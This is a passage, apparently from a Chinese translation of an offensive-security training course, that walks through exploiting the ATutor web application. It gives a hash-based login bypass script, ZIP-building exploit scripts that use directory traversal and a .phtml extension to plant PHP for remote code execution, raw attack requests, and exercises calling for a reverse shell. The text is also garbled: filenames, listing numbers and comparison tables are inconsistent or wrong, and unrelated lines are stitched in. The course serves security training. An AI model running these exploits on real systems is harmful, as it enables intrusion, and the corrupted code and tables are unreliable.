> 列表 115 - 用户密码在登录尝试之前的`login.tpl.php`中进行了哈希处理

```
14: if (err.length > 0)
15: {
16: document.form.form_password_error.value = err;
17: }
18: else
19: {
20: document.form.form_password_hidden.value =
21: hex_sha1(document.form.password1.value);
22: document.form.password1.value = "";
23: /*document.form.form_password2.value = "";
24: }
```

> 列表 116 - 用户密码在注册期间进行了哈希处理，用户密码被哈希一次，但在登录尝试期间会被哈希两次（一次使用我们控制的`token`值）。

这里需要注意的重要点是，它在`registration.tpl.php`中注册之前就已经进行了哈希处理。

## 攻击性安全

此时，我们已经获取了关于身份验证过程的足够知识，可以实施攻击。如果我们使用上一节获取的哈希配合`ator_login.py`概念验证，结果应该如下：

```
kali@kali:~$ atutor python ator_login.py atutor
8635fc4e2a2c7d9d29ee40a8b2fed76d5757e
(+) success!
```

列表 117 - 仅使用教师哈希值，我们就能成功登录 ATutor

### 3.8.1 练习

根据你获取的关于身份验证过程的知识，完成下面的脚本，并使用你从 ATutor 数据库中获取的教师账户和密码登录 ATutor Web 应用程序。记住，身份验证查询准确地告诉了如何计算哈希。你只需要在你的脚本中重新实现该逻辑。

```
import sys, hashlib, requests

def gen_hash(passwd, token):
    # 完成此函数

def we_login_with_a_hash():
    target = "http://$ATutor/login.php" % sys.argv[1]
    token = "hax"
    hashed = gen_hash(sys.argv[2], token)
    d = {
        "form_password_hidden" : hashed,
        "form_login": "teacher",
        "submit": "Login",
        "token" : token
    }
    s = requests.Session()
    r = s.post(target,data=d)
    res = r.text
    if "Create Course: My Start Page" in res or "My Courses: My Start Page" in res:
        return True
    return False

def main():
    if len(sys.argv) != 3:
        print("+ eg: %s <hash>" % sys.argv[0])
        print("+ eg: %s 192.168.121.103 56b11a0603c7b7b84f06918e1bb537ccd4811cc" % sys.argv[0])
    if we_login_with_a_hash():
        print("+ success!")
    else:
        print("- failure!")

if __name__ == "__main__":
    main()
```

列表 118 - `ator_login.py` 概念验证

Copyright © 2019 Offsec Ltd. All rights reserved.

## 3.8.2 进阶尝试

是否有其他方法绕过身份验证？如果有，请创建一个概念验证脚本来实现。

## 3.9 绕过文件上传限制

虽然在本模块中我们已经成功获得了 ATutor Web 应用程序界面的身份验证权限，但工作还没有结束。作为攻击者，我们试图获得操作系统的完全访问权限，幸运的是，ATutor 包含了允许我们做到点的额外漏洞。

在获得 Web 应用程序访问的情况下，破坏主机操作系统最直接的方法之一是发现并滥用文件上传漏洞。此类漏洞允许我们将恶意文件上传到 Web 服务器，通过 浏览器访问它们，从而获得命令执行权限。由于这是一个著名的攻击向量，大多数开发者都会编写足够的验证程序来防止此功能的滥用。在大多数情况下，这意味着某些文件扩展会被列黑（取决于使用的技术），并且上传位置不在 Web 根目录下。尽管开发者初衷良好，但当我们通过其 Web 界面尝试更多 ATutor 的功能时，发现教师级账户具有通过 URI `atutor/tests/index.php` 上传文件的能力。

## 攻击性安全

高级 Web 攻击与利用

| | |
| :--- | :--- |
| Most Visited | Kali Linux |
| Offensive Security | Kali Docs |
| Kali Tools | Exploit-DB |
| Aircrack-ng | ATutor Server |
| Hacking Course | Forums |
| Glossary | File Storage |
| Networking | Semap |
| Start Page | Hacking Course |
| Manage | Tests |
| Network | Contacts |
| Profile | Gadgets |
| Groups | Settings |

发生以下错误：

文件不是有效的 ZIP 文件。

图 73: 尝试上传文件

```
Raw Params
POST /atutor/tests/test.php HTTP/1.1
Host: atutor
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Gecko/2010101) Firefox
Accept: text/html,application/xml,xml;q=0.9,*/*
Accept-Language: en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://atutor/tests/index.php
Cookie: sessionid=220820212028202135;ATutorId=df45412slvkpeo75dj6644-userActivity=220820212028202135;m_Networking=null;m_Glossary=null;m_Search=null;m_Poll=null;m_Forum=null;side_menu;show_Nav=on
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data;boundary=--1564917119391131035129163
Content-Disposition: form-data; name="poc.txt"
Content-Type: text/plain

hello
1564917119391131035129163
Content-Disposition: form-data;name="submit_import"

Import
--1564917119391131035129163--
```

图 74: 被 Burp 拦截的上传请求

`img/5d1c2c08c09e4691e93ba5fa2d52a8a_123_0.png`

```
Request Response
Raw Headers Hex
HTTP/1.1 302 Found
Date: Sat, 27 Jan-2018 17:51:11 GMT
Server: Apache/2.4.10 (Ubuntu)
Set-Cookie: AtutorID=j6crpuh6rrernomuj3; path=/Atutor/
Set-Cookie: AtutorID=j6crpuh6rrernomuj3; path=/Atutor/
Set-Cookie: flash=deleted; expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0
Location: index
Vary: Accept-Encoding
Content-Length: 0
Connection: close
Content-Type: text/html; charset=utf-8
```

图 75: 服务器响应提供的信息极少

```
Request Response
Raw Headers HTML Render
```

```html
<html
<title>Webs and Surveys</title>
<div id="message" error="alert">
<a href="" onclick="return false;">
<br />
发生以下错误：
<ul><li>文件不是有效的 ZIP 文件。</li></ul>
</div>
</html>
```

我们第一次尝试上传一个简单的文本文件，得到一个错误消息，显示我们只能上传 ZIP 文件（图 73、图 74、图 75 和图 76）。

由于应用程序明确说明需要 ZIP 文件，我们可以进一步调查并使用通用 ZIP 文件重复上传过程。ZIP 文件可以通过 Python 脚本生成。

```python
#!/usr/bin/python

import zipfile

from io import StringIO

def build_zip():
    f = StringIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('poc/poc.txt', 'offset')
    z.close()
    zip = open('poc.zip', 'wb')
    zip.write(f.getvalue())
    zip.close()

def build_zip()
```

列表 119 - 生成包含`poc.txt`文件的 ZIP 文件的 Python 代码，该文件包含字符串 `'offset'`

AWAE
Copyright © 2019 Offsec Security Ltd. All rights reserved.

# 攻击性安全
`www.offensive-security.com`

列表 119 中的短脚本在目录中创建了一个文件（`poc/poc.txt`）并将其压缩为名为`poc.zip`的压缩包。

```
kal@kali:~$ /atutor-zip.py
kal@kali:~$ ls -la poc.zip
-rw-r--r-- 1 root root 116 Sep 3 13:56 poc.zip
```

列表 120 - 生成 ZIP 文件

我们将把新创建的`poc.zip`文件上传到 ATutor，看看是否可以绕过之前的错误。



图 77：上传 ZIP 文件不包含清单（manifest）检查

ZIP 文件未被接受，但此错误消息表明压缩包缺少 IMS 清单文件（manifest file）。这表明 ZIP 压缩包的内容也被检查。因此，我们将确定什么是 IMS 清单，并查看是否可以生成一个将其包含在 ZIP 压缩包中。

在此时，我们需要切换到灰盒/白盒方法来有效地审计此目标，因为判断该应用程序是否存在漏洞将非常困难，甚至可能是不可能的。毕竟，仅从黑盒角度无法识别任何漏洞。考虑到我们拥有源代码权限，让我们确定是否可能绕过内容检查。

第一步是确定我们需要审计 ATutor 的哪些 PHP 文件。一个好的起点是使用`grep`搜索上传 ZIP 文件时返回的“IMS manifest file is missing（缺少 IMS 清单文件）”错误消息：

```
student@author:~$ grep -ir "IMS manifest file is missing" /var/www/html/ATutor --color
/var/www/html/ATutor/include/install/db/atutor_language_text.sql:17('en', 'msgs',
'AT_ERROR_NO_IMSMANIFEST', 'IMS manifest file is missing. This does not appear to be a valid IMS content package or carriage 따로.', '2009-11-17 13:28:14', '')
```


## 高级 Web 攻击与利用

我们的搜索在安装文件 `atutor_language_text.sql` 中发现了错误消息，显示该错误消息被定义为常量 `AT_ERROR_NO_IMSANIFEST`。

这表明大量的应用程序错误存储在数据库中。通过查看代码，我们很快发现数据库安装文件中的常量命名格式与源代码中错误常量名并不完全匹配。具体而言，省略了 `AT_ERROR` 前缀。

### 列表 121 - 搜索错误字符串

```bash
student@atutor:~$ grep -ir "error" /var/html/Atutor --color

/var/html/Atutor/Helper/contact_support.php: $msg->addError('SECRET_ERROR');

/var/html/Atutor/Helper/contact_support.php: $msg->addError('EMAIL_INVALID');

/var/html/Atutor/Helper/contact_support.php: $msg->addError(array('EMPTY_FIELDS'), $fields));

/var/html/Atutor/bounce.php: $msg->addError(array('ITEM_NOT_FOUND'));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_NOT_RELEASE'), AT_Date(AT('announcement_date_format'),

Row['u_release_date'], AT_UNIX_TIMESTAMP)));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_ENDED'),

AT_Date(AT('announcement_date_format'), Row['u_end_date']));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_NOT_RELEASE'), AT_Date(AT('announcement_date_format'),

Row['u_release_date'], AT_UNIX_TIMESTAMP)));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_ENDED'),

AT_Date(AT('announcement_date_format'), Row['u_end_date']));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_NOT_RELEASE'), AT_Date(AT('announcement_date_format'),

Row['u_release_date'], AT_UNIX_TIMESTAMP)));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_ENDED'),

AT_Date(AT('announcement_date_format'), Row['u_end_date']));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_NOT_RELEASE'), AT_Date(AT('announcement_date_format'),

Row['u_release_date'], AT_UNIX_TIMESTAMP)));

/var/html/Atutor/bounce.php: $msg->addError(array('COURSE_ENDED'),

AT_Date(AT('announcement_date_format'), Row['u_end_date']));

/var/html/Atutor/registration.php: $msg->addError('SECRET_ERROR');

/var/html/Atutor/registration.php: $msg->addError('LOGIN_CHAINS');_ 

/var/html/Atutor/registration.php: $msg->addError('LOGIN_EXISTS');

/var/html/Atutor/registration.php: $msg->addError('LOGIN_EXISTS');
```

有了这些信息，我们可以使用 `grep` 搜索代码中省略的 `NO_IMSANIFEST AT_ERROR` 前缀：

### 列表 122 - AT_ERROR 前缀在代码中被省略

```bash
student@atutor:~$ grep -ir "NO_IMSANIFEST" /var/html/Atutor/include/install/db/atutor_language_text.sql:'en', 'msgs',

'AT_ERROR_NO_IMSMANIFEST', 'IMS manifest file is missing. This does not appear to be a valid IMS content package or 따로.', '2009-11-17 13:28:14', '')
```

### 列表 123

```bash
/var/html/Atutor/mods/_core/ims_import.php: $msg->addError('NO_IMSANIFEST');

/var/html/Atutor/mods/_standard/tests/import_test.php: $msg->addError('NO_IMSANIFEST!');

/var/html/Atutor/mods/_standard/tests/question_import.php: $msg->addError('NO_IMSANIFEST!');
```

在列表 123 中，我们在代码的多个位置发现了错误常量，这表明如果文件存在漏洞，存在多条漏洞路径。我们目前关注 `import_test.php`，因为该文件直接用于输入表单（图 78）。



**图 78：HTML 表单直接使用 import_test.php**

从 `ATutor/_standard/tests/import_test.php` 的第 220 行开始（列表 124），我们发现了对清单的引用，并看到在文件缺失时引用的 `NO_IMSANIFEST` 错误。

### 列表 124 - 清单文件处理

```php
220: $ms_manifest_xml = @file_get_contents($import_path.'imsifest.xml');

221: if ($ms_manifest_xml === false) {

    $msg->addError('NO_IMSANIFEST');

224: if (file_exists($import_path . '_tator_backup_version')) {

    $msg->addError('NO_IMS_BACKUP');

227: }
```

根据列表 124 中的代码，ZIP 压缩包需要包含一个名为 `imsifest.xml` 的文件，因此我们可以更新脚本来创建它：

### 列表 125 - 更新后的 PoC 创建包含所需清单文件的 ZIP 压缩包

```python
#!/usr/bin/python

import zipfile

from io import StringIO

def build_zip():

    f = StringIO()

    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)

    z.writestr('poc/poc.txt', 'offsec')

    z.writestr('imsifest.xml', '<validTag></validTag>')

    z.close()

    zip = open('poc.zip', 'wb')

    zip.write(f.getvalue())

    zip.close()

build_zip()
```

注意，上面的脚本创建了一个有效且格式正确的 XML 文件，它可以通过从 `import_test.php` 第 239 行开始的解析检查。

### 列表 126 - XML 验证

```php
239: $xml_parser = xml_parser_create();

240:

241: $xml_parser->set_option($xml_parser, XML_OPTION_CASE_FOLDING, false); /* conform to W3C specs */

242: $xml_parser->set_element_handler($xml_parser, 'startElement', 'endElement');

243: $xml_parser->set_character_handler($xml_parser, 'characterData');

244:

245: if (xml_parse($xml_parser, $ims_manifest_xml, true)) {

     die(sprintf("XML error: %s at line %d",

247:

         xml_error_string(xml_get_error_code($xml_parser)),

249:

         xml_get_current_line_number($xml_parser))));

250: }

251:

252: xml_parser_free($xml_parser);
```

我们终于可以尝试上传新生成的良好 `imsifest.xml` 文件的压缩包了。结果如图 79 所示，我们被文件已成功导入。




### 攻击性安全

执行此点后，我们应该能够通过使用格式不正确的 `insmanifest.xml` 文件，向目标文件系统永久地写入我们选择的文件。

有趣的是，我们过度热心的尝试创建一个有效的 XML 文件，实际上阻止了我们在第一次尝试中实现目标。让我们用以下脚本快速尝试这种方法：

```python
#!/usr/bin/python

import zipfile

from io import StringIO

def build_zip():

    f = zipfile.ZipFile('w', zipfile.ZIP_DEFLATED)

    z = z.writestr('poc/poc.txt', 'offsec')

    z.writestr('insmanifest.xml', 'invalid xml!')

    z.close()

    zip = open('poc.zip', 'wb')

    zip.write(f.getvalue())

    zip.close()

build_zip()
```

**图 12 - Poc 创建了一个包含无效 `insmanifest` 文件的 ZIP 压缩包**

现在我们可以上传在 `insmanifest.xml` 中带有畸形 XML 的 ZIP 文件并验证我们的方法（图 80）。

| 请求 | 参数 | 头部 |
| --- | --- | --- |
| `POST /Atutor/standard/tests/index.php HTTP/1.1` | `rv:52` | `Gecko/20101 Firefox/52.0 User-Agent: Mozilla/5.0 (Linux; x86_64) Accept: text/html,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Referer: http://Atutor/standard/tests/index.php Cookie: user_id=3570451189520127928-0520); user_id=3570451189520127928; class=null; m=null; search=null; Posts=null; sid=nav; show=Nav_id=1` |

**图 80: 上传带有无效 `insmanifest.xml` 文件的 ZIP 文件**

这次，我们从 Web 攻击收到文件格式不正确，我们似乎成功了（图 81）！

### 高级 Web 攻击与利用


| 请求 | 响应 |
| --- | --- |
| `原始头部` | `进制` |

```
HTTP/1.1 200 OK

Date: 27 Jan 2018 18:55:04 GMT

Server: Apache/2.4.10 (Ubuntu)

Set-Cookie: atutor=deleted; path=/atutor/; Max-Age=0

Accept-Encoding: gzip

Content-Length: 52

Connection: close

Content-Type: text/html; charset=utf-8

XML Error: Error malformed (invalid tokens) at line 1
```

> **图 81: 上传无效 XML 数据时获取错误消息**

让我们通过在文件系统中搜索 `poc.txt` 文件来验证这一点：

```bash
student@atutor:- sudo find / -name "poc.txt"

/var/content/import/1/poc.txt

student@atutor:-$
```

> **图 129 - `poc.txt` 文件被写入了 `/var/content/import/1/` 目录**

非常好！我们上传的文件在解压后保留在了文件系统中。然而，我们还有几个障碍需要克服。

### 3.9 练习

1. 重新创建上一节的步骤，确保你可以成功向 ATutor 主机上传你选择的证明文件。
2. 尝试上传 PHP 文件。

## 3.10 获取远程代码执行

现在我们对这种文件漏洞有了基本的了解，让我们尝试利用它。
你注意到文件被解压到了 `/var/content` 目录。这是 ATutor 用于所有用户文件的默认目录，这对我们是一个问题。即使我们可以上传任意 PHP 文件，无法从 Web 界面访问该目录。

### 3.10.1 逃逸监狱

脑海中出现的第一个选项是使用目录穿越攻击来跳出“监狱”。让我们通过更新脚本，将 `poc.txt` 文件写入 `/var/` 之外的可写目录来尝试这种方法。具体来说，尝试写入 `/tmp` 目录，任何用户都可以写入。

```python
#!/usr/bin/python

import zipfile

from io import StringIO

def build_zip():

    f = StringIO()

    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)

    z.writestr('../tmp/poc.txt', 'offsec')

    z.writestr('insmanifest.xml', 'invalid xml!')

    z.close()

    zip = open('poc.zip', 'wb')

    zip.write(f.getvalue())

    zip.close()

build_zip()
```

> **图 130 - 更新后的证明文件实现了目录穿越攻击**

我们更新了高亮行，以便在 ZIP 处理过程中穿越到父目录，最终将文件写入 `/tmp`。正如预期的，我们使用新构建的包进行的上传仍然失败，并报错“XML error: Not well-formed (invalid token)”，但这次我们写在了监狱之外。

```bash
student@atutor:-$ find -name "poc.txt"

/tmp/poc.txt

student@atutor:-$
```

> **图 131 - 第一次逃出 /var 监狱**

图 131 确认了我们进展到了这一步，为了实现远程执行的目标，我们必须满足三个要求：

- 了解文件系统中 Web 根目录的路径，以便我们知道穿越到哪里
- Web 根目录内部一个可写的位置，可以在其中写入文件
- 可用于执行 PHP 代码的文件扩展

### 3.10.2 暴露 Web 根目录

由于我们使用的是白盒方法，我们已经知道 Web 根目录设置为 `/var/www/html/`。本质上，我们需要做的是让应用程序触发 PHP 警告，这在处理意外用户输入时很常见。一旦我们知道了 Web 根目录的路径，就可以利用它。在黑盒场景下，可以通过通过 GET 请求发送数组来实现：

```
GET /ATutor.php[] HTTP/1.1

Host: target
```

> **图 132 - 使用 GET 注入**

图 82 清楚地显示了完整的 Web 根目录。

### 3.10.4 绕过文件扩展名过滤

我们还面临最后一个障碍需要克服。

根据此模块早之前的练习，显而易见 ATutor 的开发者曾尝试防止上传任意的二进制 PHP 文件。具体而言，我们知道如果我们在 ZIP 文件中包含任何带有 `.php` 扩展名的文件，导入将会失败。

幸运的是，Apache 服务器可以解释包含 PHP 代码的许多不同文件和扩展，但在我们为恶意 PHP 文件任意选择不同的扩展名之前，我们需要先查看 ATutor 开发者是如何实现文件过滤的。

如果我们查看 `import_test.php` 文件，我们可以看到以下代码：

```php
```


### 1. ZIP 文件解压程序

178:   /* extract the entire archive into AT_CORE_CONTENT import/course using
179:   the call back function to filter out zip files *
180:   error_reporting(0);
181:   $archive = new PclZip($FILES['file'][$tmp_name]);
182:   if ($archive->extract(PCLIP_OUT_PATH,  $import_path,
183:                             PCLIP_CB_PRE_EXTRACT,  'preImportCallback') == 0) {
184:     $msg->addErrorInfo('IMPORT_FAILED');
185:     echo 'Error : ' . $archive->getErrorInfo(true);
186:     clr_dir($import_path);
187:     header('Location: quine_db.php');
188:     exit;
189:   }
190:   error_reporting(AT_ERROR_REPORTING);

**列表 135 - 上传 ZIP 文件的解压程序**

查看 `135` 中的代码告诉我们 `ZIP` 文件扩展名处理是如何工作的。具体来说，开发者注释指示第 `181` 行的 `extract` 函数是回调函数 `preImportCallback`，用于从上传的归档过滤掉任何 `PHP` 文件。

`preImportCallback` 函数的实现可以在 `/var/www/html/ATutor_mods/core_file_manager/filemanager.inc.php` 文件找到：

```php
147: /* */
148: /* This function gets used by PclZip when creating a zip archive.
149:  * @access private
150:  * @return int whether or not to include the file
151:  * @author Joel Kronenberg
```

# 攻击安全

```php
/* /
function preImportCallback($p_event, &$p_header) {

    global $IllegalExtensions;

    if ($p_header['folder'] == 1) {

        return 1;

    }

    $path_parts = pathinfo($p_header['filename']);

    $ext = $path_parts['extension'];

    if (in_array($ext, $IllegalExtensions)) {

        return 0;

    }

    return 1;

}
```

在第 `163` 行我们发现了对 `$IllegalExtension` 的引用，并对 `/var/www/html/ATutor/include/lib/constants.php` 进行了快速搜索，在那里我们找到了许多配置变量，对我们的目的来说，最重要的变量是 `$illegal_extensions`。

此时，我们所做的就是选择一个不在列表中、但在渲染时仍执行 `PHP` 代码的扩展名。为了本次练习的目的，我们将使用 `.shtml` 扩展名，尽管我们也有其他可用扩展名。

我们剩下的工作就是更新脚本，使其生成一个带有 `.phtml` 扩展名的概念验证（`PoC`）文件，并在后续中注入任何 `PHP` 代码：

```php
<?php phpinfo(); ?>
```

最后，我们按照讨论实施了最后的更改。

```python
#!/usr/bin/python
import zipfile
from StringIO import StringIO
def build_zip():

    f = StringIO()

    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)

    z.writestr('../../var/www/ATutor/mods/poc/poc.phtml', '<?php
phpinfo();\?>')

    z.writestr('manifest.xml', 'invalid xml')

    z.close()

    zip = open('output.poc.zip', 'wb')

    zip.write(f.getvalue())
```

# 高级网络攻击与利用

# 攻击安全
`www.offensivesecurity.com`

```python
zip.close()
_build_zip()
```

**列表 139 - 更新后的概念验证创建了一个实现了整个攻击向量的 ZIP 归档**

在运行整个攻击向量后，我们可以看到我们已经实现了任意 `PHP` 代码执行！



图 14: 已实现远程代码执行！

### 3.10.5 练习

- 1. 重放攻击并在你的 `ATutor` 上获取代码执行
- 2. 尝试获取反向 shell（`reverse shell`），以便能够与底层服务器环境进行交互

## 3.10.6 额外挑战

开发一个功能完全的漏洞，结合之前的漏洞来实现远程代码执行：

- 1. 使用 `SQL` 注入披露教师的密码哈希
- 2. 使用披露的哈希值登录（使用密码漏洞）
- 3. 上传一个带有 `phtml` 扩展名的文件
- 4. 获取远程代码执行

## 3.11 总结

在本模块中，我们首先分析并利用了类型切换（type juggling）。正如我们之前所见，类型切换会导致 `PHP` 引擎产生意外的解释。出于这一原因，引入了严格比较的概念。

# 类型切换 (Juggling)

## 4.1 概述

本模块涵盖了类型切换的分析与利用。

## 4.2 开始

为了访问该漏洞，我们需要简要解释为什么类型切换存在问题。正如 `PHP` 手册所说：

> `PHP` 不要求（也不支持）在变量声明中使用显式类型；变量的类型取决于它使用的上下文。也就是说，如果将一个字符串赋值给 `$var`，`$var` 就变成字符串。如果随后将一个整数赋值给 `$var`，它就会变成整数。

缺乏显式声明可以被视为有用的……

一旦你有了该文件，执行以下命令：

```bash
@atutor:$ postmap /postfix
```

> **列表 141 - 更新传输文件**

### 4.3 松散比较与严格比较

除了我们已经过的之外，类型切换会导致 `PHP` 引擎产生意外的解释。具体来说，正如我们即将展示的，类型切换会导致意外的漏洞产生。

为了更好地说明这一点，当使用松散比较（图 85）和严格比较（图 86）时，我们可以参考下面的类型比较表。例如，请注意当你比较整数 `0` 和字符串 `"php"` 时，使用松散比较运算符的结果为真。

# 高级网络攻击与利用

`juggling³⁶`。最终，这允许我们从未经身份的角度绕过应用程序逻辑。尽管开发者有良好的意图，有时会导致可利用的漏洞。

#### 使用 = 进行松散比较

| TRUE | FALSE | 1 | 0 | -1 | "0" | "-1" | NULL | array() | "php" | "" |
|---|---|---|---|---|---|---|---|---|---|---|
| TRUE | FALSE | TRUE | FALSE | TRUE | FALSE | TRUE | FALSE | FALSE | FALSE | TRUE | FALSE |
| FALSE | TRUE | FALSE | TRUE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | TRUE | FALSE |
| 1 | TRUE | FALSE | TRUE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | TRUE | FALSE |
| 0 | FALSE | TRUE | FALSE | TRUE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE |
| -1 | TRUE | FALSE | FALSE | TRUE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE |
| "" | TRUE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE |
| "0" | TRUE | FALSE | TRUE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE |
| "-1" | TRUE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE |
| NULL | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | TRUE | TRUE | FALSE | FALSE | FALSE |
| array() | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE |
| "php" | TRUE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE |

图 85：`PHP` 使用 `=` 比较时的松散比较行为，当...

正如我们所见，用于隐式变量类型转换的松散比较逻辑相当令人困惑。

# 高级网络攻击与利用

#### 使用 === 进行严格比较

| TRUE | FALSE | 0 | -1 | "1" | "0" | "-1" | NULL | array() | "php" | ... |
|---|---|---|---|---|---|---|---|---|---|---|
| TRUE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | |
| FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | |
| 1 | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | |
| 0 | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | |
| -1 | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | FALSE | |
| "" | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | |
| "0" | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | FALSE | |
| "-1" | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | FALSE | FALSE | |
| NULL | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | |
| array() | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | |
| "php" | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | |
| ... | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | FALSE | TRUE | |

图 86：`PHP` 使用 `"==="` 的严格比较

